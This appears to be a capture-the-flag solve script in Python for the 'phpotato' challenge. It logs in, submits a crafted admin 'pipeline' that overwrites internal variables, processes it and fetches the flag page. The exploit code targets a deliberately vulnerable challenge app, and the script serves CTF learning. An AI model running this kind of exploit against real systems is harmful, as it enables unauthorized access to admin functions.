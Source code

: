```python

BASE_URL = "http://localhost:5003"
# BASE_URL = "https://phpotato.snakectf.org"


def login():
    s.post(
        f"{BASE_URL}/login",
        data={
            "_METHOD": "POST",
            "username": USERNAME,
            "password": PASSWORD,
            "login": "Login",
        },
        allow_redirects=False,
    )


def main():
    login()

    pipeline = """\
    $pages = $user_hooks
    $req_page = $precision
    $req_method = 1
    """

    s.post(
        f"{BASE_URL}/admin",
        data={"_METHOD": "PUT", "pipeline": pipeline, "submit": "Create"},
    )

    # extract pipeline id
    res = s.get(f"{BASE_URL}/admin")
    m = re.findall(r"hidden value=([0-9]+)", res.text)
    if not m:
        print("not matched.")
        return

    pipeline_id = max(m)

    s.post(
        f"{BASE_URL}/admin",
        data={"_METHOD": "POST", "id": pipeline_id, "submit": "Process"},
    )
    res = s.get(f"{BASE_URL}/admin/p-show_flag")
    print(res.text)


if __name__ == "__main__":
    main()
```
